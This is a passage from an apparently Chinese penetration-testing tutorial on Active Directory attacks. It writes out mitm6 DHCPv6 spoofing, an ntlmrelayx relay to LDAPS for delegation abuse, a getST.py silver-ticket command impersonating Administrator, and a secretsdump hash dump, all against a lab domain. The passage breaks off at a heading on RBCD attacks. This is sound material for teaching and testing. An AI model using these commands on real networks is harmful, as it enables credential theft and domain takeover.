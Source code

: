 [![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193241-e09e7a42-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193241-e09e7a42-464c-1.png)

然后配合 cme 去执行 xml。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193245-e32cef46-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193245-e32cef46-464c-1.png)  
先测试一下

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193254-e870d1e8-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193254-e870d1e8-464c-1.png)  
然后这边就会得到一个 shell，我这里测试不太稳定。  
这个工具只支持. net 4.5

-exec-method atexec 选项的作用是返回一个 system shell。

无约束的 Kerberos
-------------

计算机中有一个`msDS-AllowedToActOnBehalfOfOtherIdentity`属性，此属性控制用户是否可以通过 Kerberos 模拟登录域中的任何计算机。可以通过 reply 攻击完成。  
这里使用 mitm6

简单的说一下 mitm6 原理  
mitm6 首先监听攻击者计算机的主要接口，然后所有计算机会来请求这个接口，但是响应的是 DHCPv6 请求，为每台计算机分配一个地址，所以就相当于是一台 DNS 服务器，通信的时候，目标机会发送 NTLM challenge/response 数据到我们的机器上，作为中间人攻击。然后配合 [ntlmrelayx](https://github.com/CoreSecurity/impacket/blob/master/examples/ntlmrelayx.py) 进行 reply 攻击，就是中继。

选择指定的域：

```
mitm6 -i en0 -d pentestlab.com
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193256-e9919508-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193256-e9919508-464c-1.png)

再通过 ntlmrelayx.py 提供 wpad 文件，通过 ldaps 中继到 DC

```
python ntlmrelayx.py -t ldaps://pentestlab-Dc.pentestlab.com -wh 192.168.123.54 --delegate-access
```

这个攻击需要耐心的，因为目标可能好几天不上网，你就抓不到，但是只要他打开 ie 之类的代理工具，就能抓到凭据。

生成银票据

```
getST.py -spn cifs/pentestlabwin7.pentestlab.com pentestlab.com/AFWMZ0DS\$ -dc-ip 10.10.0.2  -impersonate Administrator
```

这里提一下，cifs 是一种网络协议，然后关于银票据的个人看法。  
个人觉得，虽然金票据的权限比银票据高，但是银票据更加隐蔽，因为不和 kdc 通信，而是直接和对应服务进行通信。得到的权限也不一定很低。

最后通过 secretsdump.py 远程 dump hash 即可。

RBCD 攻击
-------
